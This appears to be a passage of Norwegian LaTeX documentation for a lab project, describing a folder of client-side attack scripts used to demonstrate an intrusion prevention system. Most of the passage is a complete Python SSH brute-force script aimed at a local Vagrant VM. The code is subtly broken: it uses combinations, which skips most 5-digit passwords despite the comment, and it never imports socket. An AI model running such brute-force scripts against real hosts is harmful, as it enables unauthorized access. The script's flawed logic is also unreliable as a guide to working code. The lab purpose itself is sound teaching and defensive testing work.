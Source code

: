 \documentclass{article}
\begin{document}
\subsubsection{Client - mappa}
Som subkatalog i ''bin'' - mappa finner vi ''Client''. Denne mappa inneholder programmer og skript som er ment for kjøring på \textit{klient,} altså ikke rett på den virtuelle serveren. Disse skriptene er gjerne angrepsskript som skal kjøres mot serveren. Et eksempel er skriptet ''ssh\_forcer.py'', som er et Python - skript som prøver å bruteforce SSH - pålogging på serveren, som en del av demonstrasjonen av et IPS - system: 
\newpage
\begin{lstlisting}
#!/usr/bin/python
import paramiko
import itertools,string,crypt

PASSSIZE = 5
IPADDRESS = "127.0.0.1"
USERNAME = "vagrant"
SSHPORT=2222

# Run /vagrant/bin/pythonDependencies.bash to get all dependencies.
# Generates a password of containing only digits with a size of PASSSIZE

var = itertools.combinations(string.digits,PASSSIZE)

try:
    for i in var:
        passwd = ''.join(i)

        ssh = paramiko.SSHClient()
        ssh.load_system_host_keys()
        ssh.set_missing_host_key_policy(paramiko.MissingHostKeyPolicy())

        try:
            ssh.connect(IPADDRESS , port=SSHPORT, username=USERNAME, password=passwd)
            print "Connected successfully. Password = "+passwd
            break
        except paramiko.AuthenticationException, error:
            print "Incorrect password: "+passwd

        except socket.error, error:
            print error

        except paramiko.SSHException, error:
            print error
            print "Most probably this is caused by a missing host key"

        except Exception, error:
            print "Unknown error: "+error

        ssh.close()


except Exception,error :
    print error
\end{lstlisting}
Det er ikke alt for mange skript i denne katalogen nå, men det er fritt fram å legge til. 
NB: bin - katalogen blir ved oppstrat også kopiert inn til \$PATH, så alle program og kode som ligger her kan nås direkte fra kommandolinja, uansett hvor du er i systemet. Dette er også en av grunnnene til at navnene på programmene er holdt korte og konsise.
\end{document}
